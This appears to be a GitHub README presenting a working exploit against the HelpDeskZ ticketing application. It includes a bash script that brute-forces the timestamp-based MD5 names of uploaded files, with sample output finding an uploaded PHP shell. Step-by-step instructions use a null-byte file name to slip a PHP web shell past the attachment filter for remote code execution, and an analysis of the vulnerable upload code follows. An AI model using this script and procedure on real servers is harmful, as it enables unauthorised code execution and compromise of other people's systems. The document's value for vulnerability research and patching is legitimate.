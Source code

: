 # HelpDeskZ
There are vulnerabilties in the [HelpDeskZ application](https://github.com/evolutionscript/HelpDeskZ-1.0/) in which allow an attacker to bypass PHP upload, file extension, restrictions and obtain the world-readable web directory for uploads and hit the uploaded PHP shell, I highly recommend my own [WPES.PHP](https://github.com/weaknetlabs/wpes), for RCE. The code shown below is new and was written after analyzing the HelpDeskZ code for a penetratyion test exercise.
## The Uploads File Enumeration Script
This script will help us find the files aftyer we upload them.
```
#!/bin/bash
# 2019 Douglas Berdeaux - WeakNet Labs, DEMON LINUX
# GNU (C)
# Enumertaion Script - To search for uploaded files to HelpDeskZ
#
URI=""
FILENAME=$1
BASEURL=$2
OFFSET=$3
EXT=$(echo $1|sed -re 's/[^.]+//')
TIME=$(date +%s) # get current time
OFFTIME=$(($TIME + $OFFSET)) # add OFFSET
printf "[*] BaseURL: $BASEURL\n"
printf "[*] Got file: $FILENAME\n"
printf "[*] Got offset of $OFFSET\n"
printf "[*] Using extension: $EXT\n"
printf "[*] Current Epoch Seconds Time (UTC) is $TIME\n"
printf "[*] Adding offset of $OFFSET to $TIME = $OFFTIME\n"
printf "[*] Starting scan, CTRL+C to quit ... \n"
while [ 1 ]; do # just loop through minus 1 for every request until we find it.
 SUM="$FILENAME$OFFTIME"
 MD5=$(echo -n $SUM|md5sum|awk '{print $1}')
 URI="${BASEURL}${MD5}${EXT}"
 printf "[*] Trying: $OFFTIME : $URI"
 RESP=$(curl -s -I $URI|head -n 1| awk '{print $2}')
 if [[ "$RESP" != "404" ]]; then
  printf "\n[!] Possible file name found!\n[!] $URI\n[!] Offset Timestamp: $OFFTIME\n[!] HTTP code: $RESP\n\n";
  exit;
 else
  printf "\r                                                                   \r"
 fi
 OFFTIME=$(($OFFTIME-1)) # try again but subtract 1 from the timestamp.
done;
# no file found :(
printf "[!] Could not determine the file name during the scan.\n"
```
Below is code output from the terminal,
```
root@demon:~/# ./hdz-uploads.sh 'wpes.php' http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/ 0
[*] BaseURL: http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/
[*] Got file: wpes.php
[*] Got offset of 0
[*] Using extension: .php
[*] Current Epoch Seconds Time (UTC) is 1548108731
[*] Adding offset of 0 to 1548108731 = 1548108731
[*] Starting scan, CTRL+C to quit ... 
[*] Trying: 1548108402 : http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/0ae5799a884147422761be35a07e4458.php
[!] Possible file name found!
[!] http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/0ae5799a884147422761be35a07e4458.php
[!] Offset Timestamp: 1548108402
[!] HTTP code: 200

```
## Exploitation
The steps to exploitation are as follows,
1. Get the remote server's timestamp. You can use Burp or "Inspect element->Network" and view headers of thr server response in your browser after hitting index.php
2. Find the time difference from your system's clock to the server's date using subtraction
3. create a PHP shell and store it on your FS
4. Get the path to the uploaded files on the target server. This will be ./path/to/helpdeskz/ + /uploads/tickets/ according to the GitHUB repository of HelpDeskZ
5. Hit the "Submit a Ticket" in the target web service's interface and submit a ticket and use BurpSuite to capture the request.
6. Change the file name to "wpes.php%00.jpeg" - this NULL byte is what I used to bypass the PHP file extension filter.
7. Hit "Forward" in BurpSuite until you are taken back to the main page.
8. Run my script - pass the following arguments (as shown in the terminal listing above),
 * The PHP shell file name: wpes.php
 * The URL to the target: http://(TARGET IP ADDRESS)/path/to/helpdeskz/uploads/tickets/ 
 * The time difference between you and the target server: in seconds.
## How this works
First, let's look at the `verifyAttachments()` function in HelpDeskZ. This code comes directly from the author's GitHUB page for HelpDeskZ.
```
function verifyAttachment($filename){
        global $db;
        $namepart = explode('.', $filename['name']);
        $totalparts = count($namepart)-1;
        $file_extension = $namepart[$totalparts];
        if(!ctype_alnum($file_extension)){
                $msg_code = 1;
        }else{
... (SNIPPED) ...
}
```
The above code shows tha the extention itself is used to verify the file type. 

Next, let's look at the upload location. This is the combination of a few files. In `index.php` we have an include of `includes/bootstrap.php`. This PHP code sets up the controllers for the requests. Upon a file attachment submission and the code analyzing the file extension, as we saw above, the following code creates the file on the file system, found in `submit_ticket_controller.php`
```
$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
 $filename = md5($_FILES['attachment']['name'].time()).".".$ext;
 $fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
 $uploadedfile = $uploaddir.$filename;
```
This code does the follwoing operations and is what I used to build my script above,

1. Takes the file name, wpes.php, 
2. appends the current timestamp, using PHP's `time()` function
3. creates an MD5 of the enstire string
4. appends the original extension, of `wpes.php` would be '.php'
5. then stores it in `./uploads/tickets/`

This is why the timestamp offset is important. You could technically set it to far in the future and loop through, but this avoids unnecessary excessive HTTP requests during the penetration test.
